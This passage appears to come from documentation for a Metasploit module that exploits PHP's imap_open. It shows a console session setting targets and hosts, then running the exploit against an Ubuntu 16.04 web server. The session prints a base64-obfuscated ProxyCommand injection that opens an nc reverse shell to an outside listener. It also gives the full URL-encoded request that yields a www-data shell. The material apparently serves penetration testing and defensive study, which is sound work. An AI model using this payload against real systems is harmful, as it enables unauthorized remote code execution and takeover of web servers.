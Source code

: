   ```
  
  uname -a
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### Custom Page on Ubuntu 16.04

Using the `imap.php` page listed above.

  ```
  msf5 > use exploit/linux/http/php_imap_open_rce 
  msf5 exploit(linux/http/php_imap_open_rce) > set target 3
  target => 3
  msf5 exploit(linux/http/php_imap_open_rce) > set lhost 1.1.1.1
  lhost => 1.1.1.1
  msf5 exploit(linux/http/php_imap_open_rce) > set rhost 2.2.2.2
  rhost => 2.2.2.2
  msf5 exploit(linux/http/php_imap_open_rce) > exploit
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Listener started for 300 seconds
  [+] POST request connection string: x -oProxyCommand=`echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI+JjE7IHJtIC90bXAvaWVib3U=|base64$IFS$()-d|bash`}
  [+] GET request connection string: x%20-oProxyCommand=%60echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI%2BJjE7IHJtIC90bXAvaWVib3U=%7Cbase64$IFS$()-d%7Cbash%60%7D
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41124) at 2018-11-25 10:52:55 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

The GET request was utilized, and the final URL utilized was: `http://2.2.2.2/imap.php?server=x%20-oProxyCommand=%60echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI%2BJjE7IHJtIC90bXAvaWVib3U=%7Cbase64$IFS$()-d%7Cbash%60%7D`
